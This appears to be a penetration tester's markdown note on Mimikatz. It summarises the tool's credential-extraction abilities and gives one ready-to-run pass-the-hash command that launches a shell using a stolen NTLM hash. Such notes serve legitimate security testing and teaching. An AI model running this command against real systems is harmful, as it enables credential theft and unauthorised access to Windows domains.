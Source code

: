 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
Mimikatz is a windows tool for extracting plaintext passwords, hashes, PIN codes, and kerberos tickets from memory. It is also capable of performing Pass-the-Hash, Pass-the-Ticket, or build *Golden* tickets.
> [pypykatz](https://github.com/skelsec/pypykatz) is a python implementation of the tool that can be run on linux systems.

## Installation
Pre-built binaries available in the git repo: https://github.com/gentilkiwi/mimikatz/releases
## Documentation
**Cheatsheet:** 
**Website:** https://github.com/gentilkiwi/mimikatz
## Usage
### Pass-the-Hash
Using the `sekurlsa::pth` module we can perform a pass-the-hash attack. It starts a process using the user's hash.
```cmd
C:\> mimikatz.exe privilege::debug "sekurlsa::pth /usr:<user> /NTLM:<hash> /domain:<AD_domain> /run:cmd.exe" exit
```
> We can specify any program in the `/run:` flag to launch any program but a shell is often most useful.